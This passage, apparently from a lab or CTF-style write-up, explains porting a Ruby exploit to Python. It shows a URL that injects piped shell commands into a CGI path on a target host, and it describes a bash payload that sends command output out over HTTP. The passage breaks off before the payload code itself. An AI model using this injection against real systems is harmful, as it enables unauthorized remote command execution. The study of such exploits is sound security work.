 The exploit section of our code will also be straightforward. We will write functions to generate five random alphanumeric characters stored in a string and a payload which opens the shell via `bash` and captures the output to send via a GET or POST request.

The simplest way to execute the payload would be to replicate the original ruby program by formatting it inside of the URL. This saves space and makes the program clearer by directly piping the invalid character to the payload. In order to do this, we'll have to analyze the type of data we're dealing with. For data to be used in conjunction, it must be of the same type. Our random character and payload functions must both be strings to be formatted in the URL.

`exp = f"http://{targetIP}/file/show.cgi/bin/{rand()}|{payload()}|"`

Using the `string` and `secrets` modules we're able to make a function that randomly prints five alphanumeric character. The strings library does not have a native alphanumeric method, so I had to combine methods representing single digits and all cases alphabet letters.

`alphaNum = string.ascii_letters + string.digits`

We can then input this variable to be randomly generated with five characters `randChar = ''.join(secrets.choice(alphaNum) for i in range(5))`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>5</p></figcaption></figure>

And we have our invalid input function.

#### payload()
